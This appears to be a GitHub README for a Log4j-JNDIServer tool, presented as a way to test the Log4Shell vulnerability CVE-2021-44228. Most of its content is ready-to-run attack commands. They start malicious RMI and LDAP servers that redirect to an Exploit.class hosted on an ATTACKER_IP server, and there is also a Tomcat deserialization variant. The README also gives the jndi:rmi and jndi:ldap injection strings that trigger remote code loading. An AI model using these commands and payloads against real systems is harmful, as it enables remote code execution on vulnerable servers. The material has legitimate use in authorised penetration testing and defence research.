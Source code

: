 
# Log4j-JNDIServer

This project will help to test the Log4j CVE-2021-44228 vulnerability.

## Installation

- Load the project on Intellij Idea
- Build Project (CTRL + F9). This will create the jar file in /out folder

## Examples 

### 1.RMI Attack Vector

`java -jar Log4j-JNDIServer.jar 1 <RMI_IP> <RMI_PORT> Exploit http://<ATTACKER_IP>:<ATTACKER_PORT>`

and host the Exploit.class using python -m http.server

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`

### 2.LDAP Attack Vector

`java -jar Log4j-JNDIServer.jar 2 <LDAP_IP> <LDAP_PORT> http://<ATTACKER_IP>:<ATTACKER_PORT>/#Exploit`

and host the Exploit.class using python -m http.server

`Injection: {jndi:ldap://<LDAP_IP>:<LDAP_PORT>/Exploit}`

### 3.Deserialization Attack Vector (Using Tomcat payload)

`java -jar Log4j-JNDIServer.jar 3 <RMI_IP> <RMI_PORT>`

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`
